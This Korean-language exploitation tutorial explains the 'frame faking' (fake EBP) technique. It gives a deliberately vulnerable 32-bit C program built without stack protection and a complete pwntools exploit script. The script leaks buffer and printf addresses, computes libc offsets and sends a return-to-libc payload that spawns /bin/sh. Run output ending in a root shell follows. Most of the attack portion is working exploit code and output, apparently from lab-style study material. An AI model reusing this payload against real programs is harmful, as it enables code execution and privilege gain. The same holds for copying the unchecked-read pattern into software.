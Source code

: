 # **Frame Faking**

가짜 스택 프레임 포인터(Stack Frame Pointer)를 만들어 프로그램의 실행 흐름을 변경한다.(Fake EBP)  
Return Address 영역 까지만 덮어쓸 수 있을 경우 사용한다.  

#### **LEAVE**
1. EBP 레지스터에 저장된 값을 ESP에 저장
1. ESP 레지스터가 가리키는 Stack 영역에 값을 EBP 레지스터에 저장

#### **RET**
1. EBP 레지스터가 가리키는 Stack 영역의 값을 RIP 레지스터에 저장
1. JMP 명령을 통해 RIP에 저장된 영역으로 이동

```
; LEAVE
mov esp,ebp
pop ebp

; RET
pop eip
jmp eip
``` 

## **Proof of Concept**  

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o ff ff.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 70);
}
  
void main(){
    vuln();
}
```

* "A"66+"B"4 입력 시 vuln() 함수의 Stack Frame과 Return address가 변조된다.

```
gdb-peda$ x/24wx $ebp
0xbfe98a78:	0x41414141	0x42424242	0xb7f233dc	0xbfe98aa0
```

* 변조된 메모리 구조

```
gdb-peda$ x/24wx 0xbfc64e3a(&buf)
0xbfc64e3a:	0x41414141 <- dummy 0x42424242 <- &system 0x43434343 <- &exit 0x44444444 <- &/bin/sh

gdb-peda$ x/24 $ebp
0xbfc64e78:	0x46464646 <- &buf	0x47474747 <- leave	0xb7f243dc	0xbfc64ea0
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
import sys

p=process("./ff")
buf = int(p.recvline().split(' ')[3],16)
printf = int(p.recvline().split(' ')[3],16)

print('Laek buf    : ' + str(hex(buf)))
print('Laek printf : ' + str(hex(printf)))

libBase = printf - 0x4a670
system = libBase + 0x3bda0
exit = libBase + 0x2f9d0
binsh = libBase + 0x15ca0b
leave = 0x08048571

print('libBase : ' + str(hex(libBase)))
print('system  : ' + str(hex(system)))
print('exit    : ' + str(hex(exit)))
print('/bin/sh : ' + str(hex(binsh)))

exploit = "AAAA" + p32(system) + p32(exit) + p32(binsh) + "A"*46 + p32(buf) + p32(leave)
p.sendline(exploit)

p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/fakeebp# python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './fakeebp': pid 2319
Laek buf    : 0xbfd77fea
Laek printf : 0xb7e02670

libBase : 0xb7db8000
system  : 0xb7df3da0
exit    : 0xb7de79d0
/bin/sh : 0xb7f14a0b
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
<https://www.lazenca.net/pages/viewpage.action?pageId=12189944>

